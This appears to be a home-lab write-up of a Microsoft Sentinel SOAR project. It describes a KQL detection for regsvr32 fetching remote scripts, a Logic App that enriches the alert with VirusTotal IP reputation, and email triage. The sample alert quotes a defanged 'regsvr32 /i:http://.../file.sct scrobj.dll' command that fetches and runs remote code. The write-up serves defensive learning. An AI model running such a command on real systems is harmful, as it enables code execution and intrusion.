 # **Phase 4 – SOAR Automation with Logic Apps (Microsoft Sentinel)**

## **Overview**

This phase explored SOAR (Security Orchestration, Automation, and Response) integration using Microsoft Sentinel and Logic Apps. The goal was to automate alert enrichment and response actions — simulating what an analyst would otherwise perform manually during triage. This pushed me outside my detection comfort zone and into the response domain, requiring a shift in thinking: what does an analyst *actually need* to make a decision quickly? What’s high-priority vs background noise?

## **Objectives**

* Learn how Sentinel incidents trigger Logic Apps

* Extract and enrich alert data using external APIs

* Implement conditional branching to route high- and low-severity events

* Simulate analyst workflows, especially IOC validation

* Learn to parse nested JSON structures inside alert payloads

## **Workflow Summary**

1. A KQL detection triggers on suspicious use of `regsvr32.exe` (T1218.010) contacting an external IP via HTTP

2. Sentinel creates an incident and triggers a Logic App

3. The Logic App extracts alert fields from `ExtendedProperties`

4. Contacted IP is parsed and sent to VirusTotal via HTTP GET request

5. The JSON response is parsed to extract `malicious` and `reputation` scores

6. Branching logic evaluates the reputation:

   * If **malicious \> 0** or **reputation \< 0** → Send `[ALERT]` email

   * Else → Send `[INFO]` email

## **Logic App Breakdown**

* **Trigger**: Sentinel alert

* **Compose**: Extracts `ExtendedProperties` field

* **Parse JSON**: Uses sample body to identify alert elements

* **Field Extraction**: Manually parsed fields for clarity: User, Image, CommandLine, ParentImage, IntegrityLevel, Contacted IP

* **HTTP Action**: GET request to VirusTotal API (with API key)

* **Parse JSON (VT)**: Extract `malicious` and `reputation` scores

* **Condition Block**:

  * `IF malicious > 0 OR reputation < 0` → Send alert email

  * `ELSE` → Send low-priority info email

[View Logic App Workflow PDF](/sentinel_projects/sentinel_foundations/phase4_regsvr32_soar/logic_app_success.pdf)

**Email Output (ALERT)**:

 Subject:  
\[ALERT\] Suspicious Regsvr32 Activity | User: redteam | IP: 192.168.1.80

Body:  
\- User: redteam  
\- Image: C:\\Windows\\System32\\regsvr32.exe  
\- Parent Image: powershell.exe  
\- CommandLine: regsvr32 /i:http://192\[.\]168\[.\]1\[.\]80/file.sct scrobj.dll  
\- Integrity Level: High  
\- Contacted IP: 192.168.1.80  
\- VT Malicious Score: 3  
\- VT Reputation Score: \-10

Recommended Actions:  
\- Investigate user activity  
\- Review traffic to the contacted IP  
\- Isolate the host if confirmed

[View sent email alert](/sentinel_projects/sentinel_foundations/phase4_regsvr32_soar/email_alert.PNG)


## **Technical Implementation**

**KQL Trigger**:
```kql
Event
| where EventID == 1
| extend raw_xml = tostring(EventData)
| extend 
    Image = extract(@"<Data Name=""Image"">(.*?)</Data>", 1, raw_xml),
    CommandLine = extract(@"<Data Name=""CommandLine"">(.*?)</Data>", 1, raw_xml),
    ParentImage = extract(@"<Data Name=""ParentImage"">(.*?)</Data>", 1, raw_xml),
    User = extract(@"<Data Name=""User"">(.*?)</Data>", 1, raw_xml),
    IntegrityLevel = extract(@"<Data Name=""IntegrityLevel"">(.*?)</Data>", 1, raw_xml)
| extend 
    ExtractedIP = extract(@"http[s]?://([^/]+)", 1, CommandLine)
| where Image endswith "regsvr32.exe" 
    and CommandLine has "http"
| project 
    TimeGenerated, 
    User, 
    Image, 
    CommandLine, 
    ParentImage, 
    IntegrityLevel,
    ExtractedIP

```
*  **Note:** `ExtractedIP` was added in retrospect after realising that this critical indicator could be reliably parsed directly in KQL rather than extracted later via Logic Apps. This streamlined the enrichment process, enabling simpler Logic App parsing and improving alert context earlier in the workflow.

* **Parsing Challenges**: The JSON inside ExtendedProperties required layered parsing. I used both UI and code view to troubleshoot, ultimately simplifying it by manually isolating each field in individual parse steps.

* **VirusTotal Query**: Used HTTP GET to query IP reputation. Sample JSON response copied from browser DevTools, then used to structure the `Parse JSON` action.

## **Analyst Workflow Impact**

Without automation, an analyst would:

* Manually extract the contacted IP from alert

* Search VirusTotal manually

* Estimate severity based on returned data

* Write a case summary

This Logic App replaces all of that with:

* IOC enrichment

* Structured alert context

* Severity-based tagging via email subject

It reduces MTTR, helps prevent alert fatigue, and supports faster escalation.

## **Triage Mapping**

* `[ALERT]` emails simulate Priority: High cases for SOC queues

* `[INFO]` emails simulate lower priority events (e.g., shadow IT, internal testing)

* Escalation logic is based on **malicious score** and **reputation**

## **Lessons Learned**

* Parsing nested JSON from Sentinel alerts is messy, especially when working with `ExtendedProperties`. Learning to inspect the payload in code view helped me understand field structure.

* Email formatting matters — structured fields make analyst review easier.

* I overcomplicated some parts of the flow but now understand how to streamline it.

## **Real-World Improvements**

If deploying this in a live SOC, I’d implement:

1. **Error Handling for VT Failures**

   * Add branch to handle 404 or timeout

   * Fallback enrichment (AbuseIPDB) or notify analyst with warning

2. **Filename Extraction & Hashing**

   * Parse filename from command line (e.g., `file.sct`)

   * Hash and enrich using file reputation services (e.g., ReversingLabs)

3. **Expanded Conditional Logic**

   * Add new branches: `if malicious > 0`, `if file_score > X`, etc.

4. **Tagging Known-Good Use**

   * Add allowlist for known internal IPs, accounts, or automation sources

   * Log these quietly but avoid notifying analysts

5. **Integration with Case Management**

   * Route enriched alerts directly into a ticketing system like TheHive or ServiceNow

---

This phase brought the project full circle — moving from detection to triage and enrichment. It represents what a junior analyst should aim to learn post-detection: how to reduce triage time, surface critical IOCs, and improve SOC efficiency through lightweight, automatable processes.

